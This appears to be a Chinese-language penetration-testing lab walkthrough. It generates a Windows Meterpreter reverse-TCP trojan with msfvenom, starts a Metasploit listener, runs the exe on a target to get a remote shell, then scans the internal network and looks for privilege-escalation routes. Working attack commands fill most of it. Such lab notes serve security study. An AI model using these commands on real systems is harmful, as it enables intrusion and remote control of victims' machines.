 ‍

```text
生成exe木马
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.177.129 LPORT=2333 -f exe > hack.exe 
```

* ​`-p windows/meterpreter/reverse_tcp`​：指定 payload 类型为反向 TCP Meterpreter shell，用于与目标主机建立一个反向连接。
* ​`LHOST=192.168.177.129`​：指定本机的 IP 地址作为监听主机（即攻击者主机），用于接收目标主机的连接。
* ​`LPORT=2333`​：指定本机的监听端口号，用于接收目标主机的连接请求。
* ​`-f exe`​：指定生成的文件格式为 Windows 可执行文件（exe）。

生成exe文件

​![image](http://127.0.0.1:6806/assets/image-20231210205352-bop2czr.png)​

```text
开启监听
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lport 2333
set lhost 192.168.177.129
exploit -j
```

​![image](http://127.0.0.1:6806/assets/image-20231210205432-1k617ai.png)​

​![image](http://127.0.0.1:6806/assets/image-20231210205443-d0l4ezh.png)​​​

上传exe文件至目标服务器并执行

​![image](http://127.0.0.1:6806/assets/image-20231211201230-4c9y1zq.png)​

连接

​![image](http://127.0.0.1:6806/assets/image-20231211201208-0y2nkxq.png)​

## 上线msf

运行hack.exe成功上线

​![image](http://127.0.0.1:6806/assets/image-20231211202056-esicgfy.png)​

​![image](http://127.0.0.1:6806/assets/image-20231211202719-s0sksro.png)​

## 信息收集

```text
msf arp 发现主机  开机状态下才可探测出 我现在只开了ip141的 所以下图只扫出141
run post/windows/gather/arp_scanner RHOSTS=192.168.52.0/24
```

​![image](http://127.0.0.1:6806/assets/image-20231211202944-uatgqtf.png)​

‍

可以看到同域的主机内网ip

```text
run post/multi/recon/local_exploit_suggester    
查看msf的提权
```
